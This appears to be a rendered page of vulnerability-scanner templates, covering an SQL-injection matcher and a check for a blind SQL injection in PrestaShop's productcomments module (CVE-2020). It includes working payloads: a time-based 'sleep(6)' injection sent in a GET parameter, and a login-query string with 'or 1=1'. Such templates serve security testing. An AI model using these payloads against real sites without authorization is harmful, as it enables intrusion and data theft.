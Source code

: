 **Type - word**

- part - body
- words
  1. SQL STATEMENT:
  2. \<TD>UPDATE login_authentication SET FAILED_LOGIN=FAILED_LOGIN+1 WHERE UPPER(USERNAME)=UPPER(NULL)or`1`=`1`;-- -')\</TD>
- condition - and

**Type - word**

- part - header
- words
  1. text/html
- condition - and

**Type - status**

- status
  1. 200

---

# PrestaShop ProductComments \< 4.2.0 - SQL Injection

## Description

- In the PrestaShop module "productcomments" before version 4.2.1, an attacker can use a Blind SQL injection to retrieve data or stop the MySQL service. The problem is fixed in 4.2.1 of the module.

- severity - high
- tags - cve,cve2020,sqli,prestshop,packetstorm

## Requests

### Step - 1

```
@timeout: 20s
GET /index.php?fc=module&module=productcomments&controller=CommentGrade&id_products%5B%5D=(select*from(select(sleep(6)))a) HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - dsl**

- dsl
  1. duration>=6
  2. status_code == 200
  3. contains(content_type, "application/json")
  4. contains(body, "average_grade")
- condition - and

---
